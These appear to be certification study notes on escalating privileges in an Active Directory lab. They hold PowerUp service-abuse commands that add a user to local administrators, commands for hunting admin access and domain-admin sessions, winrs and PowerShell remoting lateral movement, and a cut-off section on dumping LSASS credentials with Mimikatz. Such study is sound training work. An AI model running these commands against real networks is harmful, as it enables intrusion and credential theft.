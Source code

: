 ```yaml
---
layout: post
title: Active Directory (AD) | Local Privilege Escalation
date: 2024-06-25 7:40:00 +0800
categories: [Cert, CRTP]
tags: [Cert, Active Directory]     # TAG names should always be lowercase
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```



# 1. Local Privilege Escalation

 **In Active Directory Environment, there are multiple scenarios which lead to privilege escalation. We had a look at the following:**
 
 - Hunting for Local Admin access on other machines
 - Hunting for high privilege domain accounts (like a Domain Administrator)
 - **Example Scenario :** I have local admin access on a machine **-->** A Domain Admin has a session on that machine **-->** I steal his token and impersonate him **-->** Profit!

 **There are various ways of locally escalting privilege on Windows:**
 
 - Missing Patches
 - Automated Deployment and AutoLogon password in clear text
 - AlwaysInstallElevated (Any user can run MSI on SYSTEM)
 - Misconfigured Services
 - DLL Hijacking and more
 - NTLM Relaying a.k.a Wont’t Fix
 - NTLM Relaying example - https://github.com/antonioCoco/RemotePotato0

 **We can use below tools for complete coverage:**
 
 - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
 - https://github.com/enjoiz/Privesc
 - https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md - Very NOISY

# 2. Check for any privilege escalation path - PowerUp

First step for local privilege escalation, we will try to check for any privilege escalation path. Then if we found any services that can be abused, we can add our domain user to the local admin group.

{: .prompt-info }
```bash
#Check for any priviliege escalation path
Invoke-AllChecks

#Abuse the service and add our current domain user to the local Administrator group
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```

# 3. Identify any machine in the domain where our user has local administrative - Find-PSRemotingLocalAdminAccess.ps1

Next step, we will try to identify any computers/machines in the domain where our user has local administrative access. 

{: .prompt-info }
```bash
#Identify a computer within the network domain where the user has local admin privileges.
Find-PSRemotingLocalAdminAccess
```

We can connect to the machine who has the local administrative access by using winrs
{: .prompt-info }
```bash
winrs -r:dcorp-adminsrv cmd

#Checking the username and computername in the remote winrs session
set username
set computername
```

We can also use PowerShell Remoting
{: .prompt-info }
```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

# 4. Identify a machine in the domain where a Domain Admin session is available - PowerView

A request will be sent to Domain Controller to retrieve all ComputerName and membership of the domain admin's group which has admin session there.
{: .prompt-info }
```bash
Find-DomainUserLocation
```

# 5. Extract Credentials from LSASS using Mimikatz

Once we have remote admin session on the remote machine, we will extract credentials from LSASS. Bear in mind , **to avoid LSASS unless you have nothing to do.**

Using OverPass-the-Hash